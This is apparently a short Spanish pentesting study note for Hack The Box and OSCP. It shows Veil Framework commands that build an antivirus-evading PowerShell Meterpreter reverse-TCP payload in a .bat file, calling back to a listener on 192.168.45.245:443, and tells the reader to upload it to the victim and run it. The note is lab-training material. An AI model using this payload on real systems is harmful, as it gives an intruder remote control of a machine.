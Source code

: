 
## DESCRIPTION



#### Mas información
* https://github.com/Veil-Framework/Veil


## EXPLOITATION

### OPTION 1: .BAT OFUSCADO POWERSHELL

1. Ejecutamos veil

![[Pasted image 20230510185630.png]]

2. Configuramos

```
use 1 (EVASION MODE)
USE 22 (powershell/meterpreter/rev_tcp.py)
set lhost 192.168.45.245
set lport 443
options
generate
```

4. Obtenemos el payload que tenemos que subir a la máquina victima y ejecutar:

![[Pasted image 20230510185920.png]]

## MACHINES

* Hack The Box: 
* OSCP: Teoria

